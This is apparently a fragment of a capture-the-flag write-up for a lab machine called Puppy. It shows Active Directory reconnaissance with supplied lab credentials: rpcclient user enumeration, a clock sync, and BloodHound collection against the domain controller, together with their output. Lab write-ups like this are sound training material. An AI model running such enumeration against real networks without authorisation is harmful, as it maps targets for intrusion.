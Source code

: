 ```bash
en samba habia politicas que se han estado analizando
```
```bash
└─# rpcclient -U levi.james%KingofAkron2025! -W puppy.htb 10.10.11.70


```rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[levi.james] rid:[0x44f]
user:[ant.edwards] rid:[0x450]
user:[adam.silver] rid:[0x451]
user:[jamie.williams] rid:[0x452]
user:[steph.cooper] rid:[0x453]
user:[steph.cooper_adm] rid:[0x457]
```
```bash
└─# ntpdate puppy.htb
2025-07-11 13:06:14.736452 (-0400) +25200.486878 +/- 0.026779 puppy.htb 10.10.11.70 s1 no-leap
CLOCK: time stepped by 25200.486878
                                                                                                                                                                                                                                           
┌──(root㉿kali)-[~/THM/Puppy]
└─# bloodhound-python -u 'levi.james' -p 'KingofAkron2025!'  -d puppy.htb -ns 10.10.11.70 -c All --zip
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: puppy.htb
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: [Errno Connection error (dc.puppy.htb:88)] [Errno -2] Name or service not known
INFO: Connecting to LDAP server: dc.puppy.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: dc.puppy.htb
INFO: Found 10 users
INFO: Found 56 groups
INFO: Found 3 gpos
INFO: Found 3 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: DC.PUPPY.HTB
INFO: Done in 00M 11S
INFO: Compressing output into 20250711060801_bloodhound.zip
```
